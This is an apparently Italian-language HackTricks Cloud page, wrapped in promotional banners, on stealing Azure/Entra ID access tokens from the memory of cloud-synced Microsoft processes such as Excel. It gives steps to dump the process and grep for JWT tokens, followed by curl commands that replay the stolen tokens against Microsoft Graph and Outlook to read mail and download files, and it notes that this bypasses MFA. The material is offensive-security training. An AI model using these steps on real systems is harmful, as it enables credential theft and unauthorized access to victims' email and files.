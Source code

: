 # Az - Processes Memory Access Token

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Informazioni di base**

Come spiegato in [**questo video**](https://www.youtube.com/watch?v=OHKZkXC4Duw), alcuni software Microsoft sincronizzati con il cloud (Excel, Teams...) potrebbero **memorizzare i token di accesso in chiaro nella memoria**. Quindi, semplicemente **dumpando** la **memoria** del processo e **greppando per i token JWT** potresti ottenere accesso a diverse risorse della vittima nel cloud bypassando l'MFA.

Passaggi:

1. Dumpa i processi di excel sincronizzati con l'utente EntraID con il tuo strumento preferito.
2. Esegui: `string excel.dmp | grep 'eyJ0'` e trova diversi token nell'output
3. Trova i token che ti interessano di più e esegui strumenti su di essi:

{% code overflow="wrap" %}
```bash
# Check the identity of the token
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/me | jq

# Check the email (you need a token authorized in login.microsoftonline.com)
curl -s -H "Authorization: Bearer <token>" https://outlook.office.com/api/v2.0/me/messages | jq

# Download a file from Teams
## You need a token that can access graph.microsoft.com
## Then, find the <site_id> inside the memory and call
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/sites/<site_id>/drives | jq

## Then, list one drive
curl -s -H "Authorization: Bearer <token>" 'https://graph.microsoft.com/v1.0/sites/<site_id>/drives/<drive_id>' | jq

## Finally, download a file from that drive:
┌──(magichk㉿black-pearl)-[~]
└─$ curl -o <filename_output> -L -H "Authorization: Bearer <token>" '<@microsoft.graph.downloadUrl>'
```
{% endcode %}

**Nota che questi tipi di access token possono essere trovati anche all'interno di altri processi.**

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

